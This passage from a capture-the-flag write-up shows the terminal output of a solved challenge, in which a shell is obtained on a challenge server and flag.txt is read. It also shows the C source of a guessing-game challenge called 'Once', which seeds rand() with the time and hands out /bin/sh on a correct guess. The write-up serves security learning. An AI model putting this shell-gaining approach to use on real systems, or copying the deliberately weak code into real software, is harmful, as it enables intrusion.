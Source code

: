 ```py
    time.sleep(1)
```
```zsh
Opening connection to chal.ctf.scint.org on port 10004: Done
[+] 
[+] stopped it worked i think
[*] Switching to interactive mode
$  =l ls ls
bin
boot
dev
etc
flag.txt
home
lib
# ...
usr
var
$  c ca cat cat  cat f cat fl cat fla cat flag cat flag. cat flag.t cat flag.tx cat flag.txt cat flag.txt
THJCC{H0w_did_you_tyPE_\x00?}$  [*] Got EOF while reading in interactive
```

## Once
```c {hl_lines=10}
char charset[] = "!\"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";

void main()
{
    char secret[0x10];
    char buf[0x10];
    char is_sure = 'y';

    init();
    srand(time(NULL));

    for (int i = 0; i < 15; i++)
    {
        secret[i] = charset[rand() % strlen(charset)];
    }
    secret[15] = 0;

    printf("Guess the secret, you only have one chance\n");
    while (1)
    {
        printf("guess >");
        scanf("%15s", buf);
        getchar();
        // ...
            if (!strcmp(buf, secret))
            {
                printf("Correct answer!\n");
                system("/bin/sh");
            }
            else
            {
                printf("Incorrect answer\n");
                printf("Correct answer is %s\n", secret);
                break;
            }
    }
}
```